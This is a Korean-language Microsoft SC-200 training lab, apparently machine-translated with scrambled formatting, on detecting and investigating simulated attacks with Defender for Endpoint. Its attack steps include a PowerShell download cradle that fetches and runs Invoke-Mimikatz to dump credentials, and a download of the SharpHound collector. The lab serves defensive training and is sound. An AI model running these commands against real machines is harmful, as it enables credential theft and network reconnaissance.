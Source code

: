 ```yaml
---
lab:
  title: 연습 2 - 엔드포인트용 Microsoft Defender를 사용하여 공격 완화
  module: Learning Path 2 - Mitigate threats using Microsoft Defender for Endpoint
---
```


# 학습 경로 2 - 랩 1 - 연습 2 - 엔드포인트용 Microsoft Defender를 사용하여 위협 완화

## 랩 시나리오

![랩 개요입니다.](../Media/SC-200-Lab_Diagrams_Mod2_L1_Ex2_10_19.png)

여러분은 엔드포인트용 Microsoft Defender를 구현하고 있는 회사에서 일하는 보안 운영 분석가입니다. 관리자는 몇 가지 디바이스를 온보딩하여 SecOps(Security Operations) 팀 응답 프로시저에 필요한 변경 내용에 대한 인사이트를 제공할 계획입니다.

엔드포인트용 Defender 공격 완화 기능을 탐색하려면 두 개의 시뮬레이션된 공격을 실행합니다.

>**참고:** **[대화형 랩 시뮬레이션](https://mslabs.cloudguides.com/guides/SC-200%20Lab%20Simulation%20-%20Mitigate%20attacks%20with%20Microsoft%20Defender%20for%20Endpoint)** 을 사용하여 이 랩을 원하는 속도로 클릭할 수 있습니다. 대화형 시뮬레이션과 호스트된 랩 간에 약간의 차이가 있을 수 있지만 보여주는 핵심 개념과 아이디어는 동일합니다. 


### 작업 1: 디바이스 온보딩 확인

이 작업에서는 디바이스가 성공적으로 온보딩되었는지 확인하고 테스트 경고를 만듭니다.

1. Microsoft Edge 브라우저의 Microsoft Defender XDR 포털에 아직 없는 경우 테넌트에 대한 관리(로 로그인)https://security.microsoft.com)합니다.

1. 왼쪽 메뉴**의 자산 영역에서 디바이스**를** 선택합니다**. 계속하기 전에 WIN1이 디바이스 페이지에 나타날 때까지 기다려 주세요. 그렇지 않으면, 나중에 생성될 경고를 보기 위해 이 작업을 반복해야 할 수 있습니다.

    >**참고:** 온보딩 프로세스를 완료하고 1시간 후에 디바이스 목록에 디바이스가 표시되지 않으면 온보딩 또는 연결 문제가 표시될 수 있습니다.

1. 왼쪽 메뉴 모음에서 설정** 선택한 **다음 설정 페이지에서 엔드포인트를** 선택합니다**.

1. 디바이스 관리 섹션에서 온보딩을** 선택하고 **"Windows 10 및 11"*이 운영 체제로 선택되어 있는지 확인*합니다. *이제 "온보딩된 첫 번째 디바이스"* 메시지가 완료됨*으로 표시됩니다*.

1. "2" 섹션 *아래로 스크롤합니다. 검색 테스트 실행"*, 복사 단추를 선택하여 검색 테스트 스크립트를 **복사** 합니다.  

1. WIN1 가상 머신의 Windows 검색 창에서 **CMD**를 입력하고 명령 프롬프트 앱의 오른쪽 창에서 **관리자 권한으로 실행**을 선택합니다. 

1. “사용자 계정 컨트롤” 창이 표시되면 **예**를 선택하여 앱을 실행할 수 있도록 합니다. 

1. 관리istrator: 명령 프롬프트** 창을 마우스 오른쪽 단추로 클릭하여 **스크립트를 붙여넣고 Enter** 키를 눌러 **실행합니다.

    >**참고:** 스크립트를 실행한 후 창이 자동으로 닫힙니다.

### 작업 2: 시뮬레이션된 공격

이 작업에서는 WIN1*에서 PowerShell** 을 사용하여 *두 개의 *시뮬레이션된* 공격을 실행하여 엔드포인트용 Microsoft Defender 기능을 탐색합니다.

`Attack 1: Mimikatz - Credential Dumping`

1. WIN1 컴퓨터의 *검색 창에 명령을** 입력**하고 관리자** 권한으로 실행을 선택합니다**.*

1. 다음 명령을 복사하여 관리istrator: 명령 프롬프트 창에 **붙여넣고 Enter** 키를 눌러 **실행**합니다.

    ```CommandPrompt
    powershell.exe "IEX (New-Object Net.WebClient).DownloadString('#{mimurl}'); Invoke-Mimikatz -DumpCreds"
    ```

1. Access가 *거부되었다는* 메시지와 위협을 표시하는 *팝업 메시지가 `Microsoft Defender Antivirus, Windows Security Virus and threats protection` 표시됩니다*.

1. 종료를 **입력**하고 Enter 키를 눌러 **관리istrator: 명령 프롬프트** 창을 종료**합니다**.

`Attack 2: Bloodhound - Collection`

1. WIN1 컴퓨터의 *검색 창에 PowerShell**을 입력**하고 Windows PowerShell**을 선택한 **다음 관리자** 권한으로 실행을 선택합니다**.*

1. 다음 명령을 복사하여 관리istrator: Windows PowerShell 창에 **붙여넣고 Enter** 키를 눌러 **실행**합니다.

    ```PowerShell
    New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction Ignore -Force | Out-Null
    Invoke-WebRequest "https://raw.githubusercontent.com/BloodHoundAD/BloodHound/804503962b6dc554ad7d324cfa7f2b4a566a14e2/Ingestors/SharpHound.ps1" -OutFile "PathToAtomicsFolder\..\ExternalPayloads\SharpHound.ps1"
    ```

    >**참고:** 명령을 한 번에 하나씩 복사, 붙여넣기 및 실행하는 것이 좋습니다. 메모장* 열고 *명령을 임시 파일에 복사하여 이 작업을 수행할 수 있습니다. 첫 번째 명령은 Atomic Red Team* 폴더가 있는 동일한 폴더에 ExternalPayloads*라는 *폴더를 *만듭니다. 두 번째 명령은 BloodHound GitHub 리포지토리에서 *SharpHound.ps1** 파일을 다운로드*하고 ExternalPayloads 폴더에 *저장합니다*.

1. 발견된 위협이* 표시되면 팝업 메시지가 `Windows Security Virus and threats protection` 표시됩니다*.

1. 다음 명령을 복사하여 관리istrator: Windows PowerShell 창에 **붙여넣고 Enter** 키를 눌러 **실행**합니다.

    ```PowerShell
    Test-Path "PathToAtomicsFolder\..\ExternalPayloads\SharpHound.ps1"
    ```

1. 출력이 True*이*면 Microsoft Defender 바이러스 백신 맬웨어 페이로드 파일이 제거되지 않았습니다. 출력이 False*이*면 Microsoft Defender 바이러스 백신 맬웨어 페이로드 파일이 제거되었습니다. 위쪽 화살표 키를 사용하여 출력이 False*가 *될 때까지 명령을 반복합니다.

<!---1. From the left menu, under **Endpoints**, select **Evaluation & tutorials** and then select **Tutorials & simulations** from the left side.

1. Select the **Tutorials** tab.

1. Under *Automated investigation (backdoor)* you will see a message describing the scenario. Below this paragraph, click **Read the walkthrough**. A new browser tab opens which includes instructions to perform the simulation.

1. In the new browser tab, locate the section named **Run the simulation** (page 5, starting at step 2) and follow the steps to run the attack. **Hint:** The simulation file *RS4_WinATP-Intro-Invoice.docm* can be found back in portal, just below the **Read the walkthrough** you selected in the previous step by selecting the **Get simulation file** button. 

1. Repeat the last 3 steps to run another tutorial, *Automated investigation (fileless attack)*. This is no longer working due to win1 AV --->

### 작업 3: 공격 조사

1. Microsoft Defender XDR 포털**의 왼쪽 메뉴 모음에서 인시던트 및 경고를** 선택한 다음, 인시던트(Incidents **)를 선택합니다**.

1. "한 엔드포인트에서 검색된 여러 위협 패밀리"라는 새 인시던트가 오른쪽 창에 있습니다. 인시던트 이름을 선택하여 세부 정보를 로드합니다.

    >**참고:** 경고** 창에 Bloodhound* 및 Mimikatz* 경고가 **모두 *표시됩니다. 자산/디바이스***에서 **win1* 컴퓨터는 **이제 위험 수준이** *높습니다*.

1. **인시던트 관리** 단추를 선택하면 새 창 블레이드가 나타납니다. 

1. 인시던트 태그 아래에 **"시뮬레이션"을** 입력하고 시뮬레이션(새로 만들기)**을 선택하여 **새 태그를 만듭니다. 

1. **내게 할당** 토글을 선택하여 사용자 계정(Me)을 인시던트 소유자로 추가합니다. 

1. **분류** 아래에서 드롭다운 메뉴를 확장합니다. 

1. **정보, 예상 작업**에서 **보안 테스트**를 선택합니다. 

1. 원하는 경우 메모를 추가하고 저장**을 선택하여 인시던트 업데이트 및 완료를 선택합니다**.

1. 공격 스토리, 경고, 자산, 조사, 증거 및 대응* 및 *요약* 탭의 내용을 *검토합니다. 디바이스 및 사용자가 자산 탭 아래에 *있습니다*. *공격 스토리* 탭에는 인시던트 그래프*가 *표시됩니다. **힌트:** 표시 크기 때문에 일부 탭이 숨겨질 수 있습니다. 줄임표 탭(...)을 선택하여 해당 탭을 표시합니다.

    >**경고:** 여기서 시뮬레이션된 공격은 연습을 통한 학습의 훌륭한 소스입니다. 강좌 제공 Azure 테넌트 사용 시 이 랩에 제공된 지침에서만 공격을 수행합니다.  이 테넌트에서 *이 교육 과정을 완료한 후* 다른 시뮬레이션된 공격을 수행할 수 있습니다.

## 랩을 완료했습니다.
